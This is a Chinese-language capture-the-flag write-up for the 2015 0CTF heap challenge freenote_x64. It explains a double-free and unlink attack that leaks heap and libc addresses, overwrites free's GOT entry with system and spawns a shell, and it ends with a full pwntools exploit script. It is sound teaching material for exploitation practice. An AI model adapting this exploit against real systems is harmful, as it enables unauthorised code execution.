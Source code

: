 # 2015 0ctf pwn--freenote_x64(jarvisoj level6_x64)

题目类似记事本的功能

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/1.png)

漏洞在free堆时没有进行检查

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/2.png)

而且在glibc中，free之后不会清空堆中的内容，输入并没有在末尾加'\x00'截断，可以读取超过预定长度的内容。

注意：程序malloc最小的数值是0x80，然后是0x180。

## 利用思路

double free和unlink搭配实现任意地址读写，目标是修改free_got中的内容。

### 第一步 求出heap_base和libc_base

unlink 需要 修改 fd和bk，所以要知道heap地址，进行修改。

为了防止合并，并一次性获取heap和libc地址，我们分配4个新块。

```python
new(1,'a')
new(1,'b')
new(1,'c')
new(1,'d')
delete(0)
delete(2)
```

这时chunk0的fd，bk和chunk2的fd，bk如下

main_arena<-->  fd  chunk 0  bk <--->   fd    chunk 2   bk ---》main_arena

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/3.png)

这时，新建两个0x8的chunk，覆盖掉chunk2，chunk0，由于new时没有清空堆，list时便会把堆地址和main_arena的地址泄露出来。

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/4.png)

堆基地址

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/5.png)

偏移为 0x242a000 - 0x242b940 = 0x1940

libc_base

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/6.png)

偏移为 0x7f4658fb9b78 - 0x7f4658c1e000 = 0x 39bb78(靶机偏移为0x3be7b8)

### 第二步 修改chunk的fd，bk，通过unlink操作，达到地址任意写

先找到通过unlink的地址，由下图我们选择了chunk2，即heap+0x60
![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/5.png)

还记得上次的unlink吗，2018网鼎杯的babyheap，那是向前合并，这次我们来向后合并，先伪造chunk

```python
payload01  = p64(0) + p64(0x51) + p64(heap + 0x30 - 0x18) + p64(heap + 0x30 - 0x10)
payload01 += "A"*0x30 + p64(0x50) + p64(0x20)
new(len(payload01), payload01)
 
payload02  = "a"*0x80 + p64(0x110) + p64(0x90) + "A"*0x80
payload02 += p64(0) + p64(0x71) + "A"*0x60
new(len(payload02), payload02)
delete(2)
```

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/7.png)

free chunk2时，系统会检测chunk2 的flag位为0，prev_size为0x110，地址减0x110到0x51（fake chunk处），p指针指向fake chunk，unlink检测 p->fd->bk==p   p->bk ->fd ==p , 即0xbfd018 + 0x18 = 0xbfd030(上图是0x242030, 由于运行了两次，记住030就好了 -_-！！)    0xbfd020 + 0x10 = 0xbfd030

完成unlink后，chunk0的ptr会指向0xbfd018,我们修改chunk0的ptr指向 free_got，然后再修改时就再 free_got处修改了，这时我们写进去system函数的地址。

```python
payload03 = p64(8) + p64(0x1) + p64(0x8) + p64(free_got) + "A"*0x40
payload04 = p64(system)
 
#
edit(0, 0x60, payload03)
edit(0, 0x8, payload04)
```

最后新建一个chunk4，里面内容为"/bin/sh\x00"

free(4),就会执行system('/bin/sh')了

exp:

```python
from pwn import *
import sys
 
p = process("./level6_x64")
elf = ELF("./level6_x64")
libc = ELF("./libc.so.6")

def list():
    p.recvuntil("Your choice: ")
    p.sendline("1")
 
def new(length, note):
    p.recvuntil("Your choice: ")
    p.sendline("2")
    p.recvuntil("new note: ")
    p.sendline(str(length))
    p.recvuntil("note: ")
    p.send(note)
 
def edit(index, length, note):
    p.recvuntil("Your choice: ")
    p.sendline("3")
    p.recvuntil("Note number: ")
    p.sendline(str(index))
    p.recvuntil("Length of note: ")
    p.sendline(str(length))
    p.recvuntil("Enter your note: ")
    p.send(note)
 
def delete(index):
    p.recvuntil("Your choice: ")
    p.sendline("4")
    p.recvuntil("Note number: ")
    p.sendline(str(index))
 
def exit():
    p.recvuntil("Your choice: ")
    p.sendline("5")
 
#leak address
new(1, 'a')
new(1, 'a')
new(1, 'a')
new(1, 'a')
 
delete(0)
delete(2)
 
new(8, '12345678')
new(8, 'aaaaaaaa')
 
list()
p.recvuntil("0. 12345678")
heap = u64(p.recvline().strip("\x0a").ljust(8, "\x00")) - 0x1940
p.recvuntil("2. aaaaaaaa")
libcbase = u64(p.recvline().strip("\x0a").ljust(8, "\x00")) - 0x3be7b8
 
print hex(heap)
print hex(libcbase)
 
delete(3)
delete(2)
delete(1)
delete(0)
 
#double link

payload01  = p64(0) + p64(0x51) + p64(heap + 0x30 - 0x18) + p64(heap + 0x30 - 0x10)
payload01 += "A"*0x30 + p64(0x50) + p64(0x20)
new(len(payload01), payload01)
 
payload02  = "a"*0x80 + p64(0x110) + p64(0x90) + "A"*0x80
payload02 += p64(0) + p64(0x71) + "A"*0x60
new(len(payload02), payload02)
delete(2)
 
 
 
#change
 
free_got = elf.got['free']
system = libcbase + libc.symbols['system']
 
payload03 = p64(8) + p64(0x1) + p64(0x8) + p64(free_got) + "A"*0x40
payload04 = p64(system)
 

edit(0, 0x60, payload03)
edit(0, 0x8, payload04)
 
payload05 = "/bin/sh\x00"
new(len(payload05), payload05)
delete(4)
 
p.interactive()


